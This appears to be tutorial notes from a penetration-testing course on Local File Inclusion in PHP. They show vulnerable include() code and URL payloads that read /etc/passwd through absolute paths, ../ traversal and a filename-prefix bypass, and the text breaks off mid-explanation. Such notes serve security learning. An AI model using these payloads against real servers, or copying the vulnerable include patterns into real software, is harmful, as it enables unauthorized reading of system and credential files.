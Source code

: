 ```http
http://<SERVER_IP>:<PORT>/index.php?language=es.php
```

Two common readable files that are available on most back-end servers are `/etc/passwd` on Linux and `C:\Windows\boot.ini` on Windows.

```http
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```


## Path Traversal

In the earlier example, we read a file by specifying its `absolute path` (e.g. `/etc/passwd`). This would work if the whole input was used within the `include()` function without any additions, like the following example:

```php
include($_GET['language']);
```

For example, the `language` parameter may be used for the filename, and may be added after a directory, as follows:

```php
include("./languages/" . $_GET['language']);
```

So, we can use this trick to go back several directories until we reach the root path (i.e. `/`), and then specify our absolute file path (e.g. `../../../../etc/passwd`), and the file should exist:

```
http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd
```


>[!tip]
>**Tip:** It can always be useful to be efficient and not add unnecessary `../` several times, especially if we were writing a report or writing an exploit. So, always try to find the minimum number of `../` that works and use it. You may also be able to calculate how many directories you are away from the root path and use that many. For example, with `/var/www/html/` we are `3` directories away from the root path, so we can use `../` 3 times (i.e. `../../../`).

## Filename Prefix

On some occasions, our input may be appended after a different string

```php
include("lang_" . $_GET['language']);
```


```
http://<SERVER_IP>:<PORT>/index.php?language=../../../etc/passwd
```

As expected, the error tells us that this file does not exist

prefix a `/` before our payload, and this should consider the prefix as a directory, and then we should bypass the filename and be able to traverse directories:

